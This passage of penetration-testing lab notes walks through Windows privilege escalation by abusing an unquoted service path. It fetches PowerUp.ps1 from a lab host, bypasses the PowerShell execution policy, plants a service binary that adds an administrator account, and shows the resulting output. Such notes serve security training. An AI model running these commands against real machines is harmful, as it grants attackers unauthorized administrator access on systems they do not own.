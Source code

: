 To restore the functionality of the original service, we have to stop the service and delete our binary **Current.exe**
+ After the executable file is removed, Windows will use the service binary **GammaServ.exe** again once the service is started

Before we conclude this section, let's check if PowerUp identifies this vulnerability
+ For this, we download PowerUp with **iwr** and import it into a PowerShell session as we did previously:
```
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
+ Then we set the _ExecutionPolicy_ to _Bypass_ and use **`Get-UnquotedService`**
``` Powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```
+ Example output:
```
ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
```
+ Above shows that the GammaService was identified as vulnerable
+ Let's use the `AbuseFunction` and restart the service to attempt to elevate our privileges
+ For **-Path**, we enter the same path for **Current.exe** as we did before
+ As stated before, the default behavior is to create a new local user called _john_ with the password _Password123!_
+ Additionally, the user is added to the local _Administrators_ group
```
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
+ Example output:
```
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
john
...
```